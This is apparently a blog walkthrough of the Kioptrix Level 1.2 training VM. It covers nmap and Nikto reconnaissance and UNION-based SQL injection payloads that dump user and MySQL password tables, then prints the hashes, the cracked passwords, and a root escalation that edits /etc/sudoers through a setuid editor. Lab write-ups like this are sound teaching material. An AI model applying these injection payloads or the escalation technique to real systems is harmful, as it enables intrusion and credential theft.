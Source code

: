```yaml
---
layout: post
title:  "Kioptrix: Level 1.2 (#3)"
date:   2017-04-01
summary: Kioptrix Level 1.2 (#3) walkthrough
---
```


### Setup
Download and unzip the vm, then mount the .vmdk file as storage in your vm config and setup your network settings. Note that this vm should auto detect using DHCP.

We also need to add the web apps hostname to hosts, this should be done after finding the host on the network.

`echo "192.168.56.102 kioptrix3.com" >> /etc/hosts`


# Kioptrix: Level 1.2 (#3)
To start we need to find the host on the network, to do this I used nmap to do a ping scan on the subnet:

{% highlight python %}
nmap -sn 192.168.56.0/24

Nmap scan report for kioptrix3.com (192.168.56.102)
Host is up (-0.090s latency).
{% endhighlight %}

## Information gathering
Now we know the IP of the host we can use port scanning to see what services are running. With nmap we can also do some banner grabbing, version checking, OS detection and enumeration of services:

{% highlight python %}
nmap -sS -sV -O 192.168.56.102

Nmap scan report for kioptrix3.com (192.168.56.102)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 08:00:27:B2:2A:A5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The result only shows 2 interesting services, ports 22 (ssh) and 80 (http).

## Web app
The web application is the next place to start gathering information from (its tech stack and functionality) then move on from there. From the nmap scan we know Apache 2.2.8 is running on Ubuntu with PHP 5.2.4-2. To assess the web app we will browse it and note its main functionality then give it a scan with Nikto.

* Gallery CMS
	queries database for photos and sort function
	http://kioptrix3.com/gallery/gallery.php?id=1
* Blog with comments
* Login (powered by lotuscms)
* Nikto scan
	+ Cookie PHPSESSID created without the httponly flag
	+ The X-XSS-Protection header is not defined. 
	+ The X-Content-Type-Options header is not set.
	+ OSVDB-3092: /phpmyadmin/changelog.php:
	+ /phpmyadmin/: phpMyAdmin directory found
	+ OSVDB-3092: /phpmyadmin/Documentation.html
* PHPMyAdmin (2.11.3deb1ubuntu1.3)
	Can login with username admin and a blank password (not full privileges)
	MySQL client version: 5.0.51a

From the information gathered we can see the main attack surface is the web app and its supporting components (Lotuscms and phpMyAdmin). We also have version numbers of several components. The first step is to identify any known vulnerabilities in the versions used then move onto the web app functionality.

phpMyAdmin 2.11.3  
There are a number of vulnerabilities in phpMyAdmin including a potential SQL injection but it requires create table functionality, the admin account doesn't seem to have privileges.

### SQL injection
The gallery app allows us to view images and details of those images, it also has a sort function that queries the db. Here we want to test for sql injection. To do this we supply unexpected syntax eg quotes to see what happens. Using ' we get a verbose error message, perfect.

	http://kioptrix3.com/gallery/gallery.php?id=1'

Returns the error:

>"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category"
This error message basically means we can modify the sql query and the app is vulnerable to injection.

Now we want to extract usernames and passwords from the db, to do this we need to use the union operator to combine the results from two queries into one set of results. The drawback of this is that the second query needs to contain the same number of columns as the first and the datatypes must also match. 

To find the number of columns that are in the query we simply add columns until we no longer get an error message.

	1 union select 1,2,3,4,5,6--

From here we can now extract useful data from the db in the string columns eg db name, version etc.

	1 union select 1,version(),3,4,5,6--

	version()	- 5.0.51a-3ubuntu5.4
	database()	- gallery 
	user()		- root@localhost

Now we have a query that works we want to extract usernames and passwords, to do this we need to find the table and column names. This can be done by looking up the metadata about the tables in the information schema.

	1 union select 1,table_name,column_name,4,5,6 from information_schema.columns--

Couple of tables are of interest the gallarific_users, dev_accounts and the user.

{% highlight sql %}
1 union select 1,username,password,4,5,6 from gallarific_users--

admin
n0t7t1k4

1 union select 1,username,password,4,5,6 from dev_accounts--

dreg
0d3eccfb887aabd50f243b3f155c0f85
loneferret
5badcaf789d3d1d09794d8f021f40f0e

1 union select 1,user,password,4,5,6 from mysql.user--

root
*47FB3B1E573D80F44CD198DC65DE7764795F948E
debian-sys-maint
*F46D660C8ED1B312A40E366A86D958C6F1EF2AB8
{% endhighlight %}

Now we have couple of hashes to crack, this can be done online or using a world list. 

### Password cracking
Using hash-identifier we can identify possible hash types, both the hashes from the dev_accounts table are MD5 and the hashes from the mysql.user table are MySQL4.1/MySQL5 / MySQL 160bit - SHA-1.

We can use an online rainbow table https://crackstation.net/ to identify the passwords from the hash.

	admin		n0t7t1k4
	dreg		Mast3r
	loneferret	starwars
	root		fuckeyou

We got root but for whatever reason can't ssh into the box with it, however it does work for phpmyadmin.

### Privilege escalation
We can ssh into the box using dreg and loneferret, dreg has no interesting files but loneferret has a couple (checksec.sh and CompanyPolicy.README). The checksec.sh bash script checks security properties of binaries, the company policy readme contains a message about using the command 'ht' for file editing.

>Hello new employee,  
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.  
DG  
CEO

However running the command produces an error:

	loneferret@Kioptrix3:~$ sudo ht
	Error opening terminal: xterm-256color.

After a quick search online we need to change an environment variable.

	export TERM=xterm

To start with lets check the security properties of ht.

	whereis ht
	ht: /usr/local/bin/ht

	./checksec.sh --file=/usr/local/bin/ht

	loneferret@Kioptrix3:~$ ls -l /usr/local/bin/ht
	-rwsr-sr-x 1 root root 2072344 2011-04-16 07:26 /usr/local/bin/ht

The bash script didn't find anything interesting, however after listing the directory we can see ht has setuid set. This means when we run the ht editor it will run with root privileges, and because ht is a file editor we can now edit files with root access. Now we want to give the loneferret user root privileges.

To do this we can edit the sudo users file `/etc/sudoers` and add `/bin/sh` to loneferret, then we can `sudo /bin/sh` to get a shell as root.

	sudo /bin/sh
	# id
	uid=0(root) gid=0(root) groups=0(root)

## Conclusion
The web app contains SQL injection which allows us to extract user names and passwords, these are then cracked and used to ssh into the box. The loneferret home folder contained a note requesting the use of ht to edit files. When run the binary runs as root so we are able to edit any files as if we were the root user.
